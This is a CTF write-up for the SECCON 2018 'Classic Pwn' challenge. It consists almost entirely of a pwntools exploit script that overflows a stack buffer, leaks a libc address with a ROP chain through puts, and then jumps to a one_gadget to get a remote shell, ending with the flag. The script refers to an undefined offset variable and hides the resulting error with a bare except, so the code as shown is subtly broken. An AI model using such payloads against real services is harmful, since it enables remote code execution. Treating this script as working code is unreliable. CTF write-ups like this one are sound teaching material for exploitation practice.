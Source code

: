 # **Classic Pwn**

#### tag : pwnable, writeup, SECCON-2018-Online-CTF

-----------------------------------------------

#### Description

>Host: classic.pwn.seccon.jp
>
>Port: 17354

-----------------------------------------------

#### Solution

```python
from pwn import *

### DEBUGGING ###
DEBUG = False
context.log_level = 'debug'

if DEBUG:
    r = process('./classic_aa9e979fd5c597526ef30c003bffee474b314e22', env = {'LD_PRELOAD': './libc-2.23.so_56d992a0342a67a887b8dcaae381d2cc51205253'})
    #gdb.attach(r, 'b *0x4006e6')
    timeout = 0.1

else :
    r = remote('classic.pwn.seccon.jp', 17354)
    timeout = 0.3

def rr(s):
    sleep(timeout)
    return r.recvuntil(s)

def ss(s):
    sleep(timeout)
    return r.sendline(s)

### ADDRESS ###
start = 0x400580
puts_plt = 0x400526
puts_got = 0x601018

one_gadgets_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

# 0x0000000000400753 : pop rdi ; ret
pop_rdi = 0x400753

### EXPLOIT ###
def main():

    # Frist stage : Leak libc_base
    payload = 'a' * 0x48
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(start)

    rr('>> ')
    ss(payload)
    rr('!\n')

    libc_puts = u64((rr('\n')[:-1]).ljust(8, '\x00'))
    log.info('leak libc_puts addr 0x%x' % libc_puts)
    libc_base = libc_puts - libc_puts_offset
    log.info('leak libc_base addr 0x%x' % libc_base)

    sleep(1)

    # Second stage : Using one_gadget to exploit
    payload2 = 'a' * 0x48
    payload2 += p64(libc_base + one_gadgets_list[0])

    rr('>> ')
    ss(payload2)
    rr('!\n')

    r.interactive()

if __name__ == '__main__':
    try:
        main()
    except:
        log.info('exception occur')

# SECCON{w4rm1ng_up_by_7r4d1710n4l_73chn1qu3}

```
**SECCON{w4rm1ng_up_by_7r4d1710n4l_73chn1qu3}**
